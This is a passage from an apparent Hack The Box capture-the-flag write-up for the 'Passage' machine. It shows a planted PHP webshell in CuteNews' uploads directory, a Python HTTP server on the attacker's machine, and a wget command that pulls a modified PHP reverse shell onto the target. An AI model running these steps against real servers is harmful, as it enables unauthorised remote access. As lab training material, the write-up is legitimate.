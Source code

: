 
Looking at the current directory, I should be able to upload a reverse php shell here using the webshell, then access it. 

```sh
command > pwd
/var/www/html/CuteNews/uploads

command > ls -al
total 24
drwxrwxrwx 2 www-data www-data 4096 Jan  3 12:50 .
drwxrwxr-x 9 www-data www-data 4096 Jun 18  2020 ..
-rw-r--r-- 1 www-data www-data   39 Jan  3 12:50 avatar_MKr6TrAp8f_MKr6TrAp8f.php
-rw-r--r-- 1 www-data www-data   39 Jan  3 12:37 avatar_SNrW4kPF09_SNrW4kPF09.php
-rw-r--r-- 1 www-data www-data 1115 Aug 31  2020 avatar_egre55_ykxnacpt.php
-rw-r--r-- 1 www-data www-data 1116 Aug 31  2020 avatar_hacker_jpyoyskt.php
```

I copied the default php reverse shell on kali (found in /usr/share/webshells/php/) and edited the following lines to my HTB ip and port 443

![](6.png)

I used wget through the python script to download the file. I hosted the file on a python http server.

```sh
kali@kali-[~/boxes/htb/passage]$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.206 - - [03/Jan/2022 15:54:44] "GET /rev.php HTTP/1.1" 200 -

```


```sh
command > wget http://10.10.14.20/rev.php


command > ls
avatar_MKr6TrAp8f_MKr6TrAp8f.php
avatar_SNrW4kPF09_SNrW4kPF09.php
avatar_egre55_ykxnacpt.php
avatar_hacker_jpyoyskt.php
rev.php

```

